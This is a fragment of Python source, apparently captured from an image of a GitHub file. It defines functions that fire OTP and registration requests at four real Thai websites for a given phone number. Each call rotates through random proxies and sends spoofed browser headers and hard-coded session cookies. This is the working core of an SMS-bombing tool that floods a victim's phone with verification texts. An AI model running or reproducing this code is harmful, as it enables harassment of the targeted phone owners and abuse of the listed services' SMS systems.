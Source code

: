 def api17(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://www.kaitorasap.co.th/api/index.php/send-otp-login/",headers={"Accept": "application/json, text/javascript, */*; q=0.01","Content-Type": "application/x-www-form-urlencoded; charset=UTF-8","X-Requested-With": "XMLHttpRequest","User-Agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","Cookie": "PHPSESSID=080ugg4928ulkhj6kaggiqkvd1; _ga=GA1.3.1856390916.1657557339; _gid=GA1.3.1103002458.1657557339; _gat_gtag_UA_141105037_1=1; G_ENABLED_IDPS=google"},data=f"phone_number={phone}&lag=",proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api18(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.get(f'https://www.konvy.com/ajax/system.php?type=reg&action=get_phone_code&phone={phone}',headers={"accept": "application/json, text/javascript, */*; q=0.01","x-requested-with": "XMLHttpRequest","user-agent": generate_user_agent(),"cookie": "referer=https%3A%2F%2Fwww.konvy.com%2Fm%2F;PHPSESSID=vnqlo8v638jofnb15arplijj3i;k_privacy_state=true;referer=https%3A%2F%2Fwww.konvy.com%2Fm%2Flogin.php;_gcl_au=1.1.531291202.1661272286;_fbp=fb.1.1661272286002.265391910;_gid=GA1.2.960487052.1661272286;_gat_UA-28072727-2=1;_tt_enable_cookie=1;_ttp=d640ab77-0c19-4578-855d-4fb1ceda3f0a;f34c_new_user_view_count=%7B%22count%22%3A2%2C%22expire_time%22%3A1661358684%7D;_ga_Z9S47GV47R=GS1.1.1661272286.1.1.1661272293.53.0.0;_ga=GA1.2.1347355119.1661272286"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api19(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://api2.1112.com/api/v1/otp/create",headers={"content-type": "application/json;charset=UTF-8","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"},json={"phonenumber":phone,"language":"th"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api20(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://www.msport1688.com/auth/otp_sender",headers={"content-type": "application/x-www-form-urlencoded","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","cookie": "msp_ss_client=4a4nipncnp9l5ced7k5v7rrs9hdnscda;_ga=GA1.1.72563414.1657611524;_ga_1YLLB0C2FF=GS1.1.1657611524.1.1.1657611527.0"},data=f"phone={phone}&otp=&password=&bank=&bank_number=&full_name=&ref=",proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	